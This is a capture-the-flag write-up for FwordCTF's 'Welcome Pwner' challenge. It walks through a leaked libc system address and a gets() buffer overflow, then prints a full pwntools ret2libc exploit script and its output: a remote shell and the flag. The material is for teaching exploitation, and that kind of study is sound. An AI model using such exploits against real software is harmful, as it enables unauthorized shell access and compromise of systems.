


# Welcome Pwner

> Points:   374
>Author :   haflout

> something to warm you up.
> nc 54.210.217.206 1240

Files provided:
 - molotov: ELF32 file.

First of all start by executing `molotov`:
```sh
$ nc 54.210.217.206 1240
f7dbc8b0
Input : 
AAAA

$ nc 54.210.217.206 1240
f7d868b0
Input : 
AAA

$ nc 54.210.217.206 1240
f7d898b0
Input : 
AAAA
```
Uhm...the first line seems to be a 32-bit address. if so, the address changes on every run (it probably means that ASLR is enabled.

`checksec` analysis:
```sh
$ checksec --file=molotov
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   76) Symbols       No    0               2               molotov
```

Then use `ghidra`. This is `main`:



This is `vuln`:



by analyzing `vuln` we can desume a lot of things:

 - The address shown is `system` address.
 - User input is received by `gets`, so we can use it to cause a buffer overflow
 - `canary` protection is disabled, so we can cause a buffer overflow easily.

So we can perform a `ret2libc` attack, but we still don't have everything we need. `ret2libc` requirements:

- `system` address (we have it).
- `exit` address (it isn't necessary in this case).
- `"/bin/sh"` address.

We don't have `"/bin/sh"` address but we can try to desume it. There is an [Online Tool](https://libc.rip/) that try to find the correct libc version by starting from a known address (in this case `system` address).

There are several possible `libc`, but by testing them, i found the correct one: `libc6_2.30-0ubuntu2_i386`

These are the offsets we need:
```sh
str_bin_sh	0x19042d
system	  	0x458b0
```

So now, we can write our exploit:
```python
from pwn import *

#r = process("./molotov")
r = remote("54.210.217.206",1240)

system_address = int(r.recvline()[:-1],16)

#current libc: libc6_2.30-0ubuntu2_i386
#if you want to try others libc versions, change offsets.
system_offset = 0x458b0		
bin_sh_offset = 0x19042d

#creating payload
payload = "A"*32
payload += p32(system_address)
payload += "AAAA"
payload += p32(system_address-system_offset+bin_sh_offset) #address of /bin/sh

r.sendlineafter("Input :", payload )

#switching to interactive mode. If exploit is correct, we'll get a shell.
r.interactive()
```


This is the result:
```sh
$ python exploit.py
[+] Opening connection to 54.210.217.206 on port 1240: Done
[*] Switching to interactive mode
 
$ ls
flag.txt
molotov
ynetd
$ cat flag.txt
FwordCTF{good_j0b_pwn3r}
```


So, the flag is `FwordCTF{good_j0b_pwn3r}`.

